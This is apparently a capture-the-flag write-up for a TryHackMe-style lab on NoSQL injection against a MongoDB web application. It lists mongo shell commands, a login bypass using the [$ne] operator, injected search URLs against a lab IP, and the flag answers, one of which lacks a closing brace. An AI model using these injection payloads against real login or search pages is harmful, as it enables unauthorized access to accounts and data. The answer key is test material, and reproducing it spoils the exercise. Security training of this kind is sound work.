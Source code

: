 ```yaml
---
title: Migration Without Security (Day 7)
sidebar_position: 8
---
```

## Topic: Web Exploitation
Get first flag by logging into box and using the command `mongo` to interact with the database. Display flag by showing collections and then printing it.  
`use flagdb`  
`show collections`  
`db.flagColl.find()`  

Bypass login page by adding [$ne] to the login request.
### Questions:
1. Interact with the MongoDB server to find the flag. What is the flag?  
flag: `THM{8814a5e6662a9763f7df23ee59d944f9`  
2. We discussed how to bypass login pages as an admin. Can you log into the application that Grinch Enterprise controls as admin and retrieve the flag?  
flag: `THM{b6b304f5d5834a4d089b570840b467a8}`  
3. Once you are logged in, use the gift search page to list all usernames that have guest roles. What is the flag?  
url: `10.10.59.158/search?username[$ne]=test&role=guest`  
flag: `THM{2ec099f2d602cc4968c5267970be1326}`  
4. Use the gift search page to perform NoSQL injection and retrieve the mcskidy record. What is the details record?  
url:`http://10.10.59.158/search?username=mcskidy&role[$ne]=guest`  
answer: `ID:6184f516ef6da50433f100f4:mcskidy:admin`  
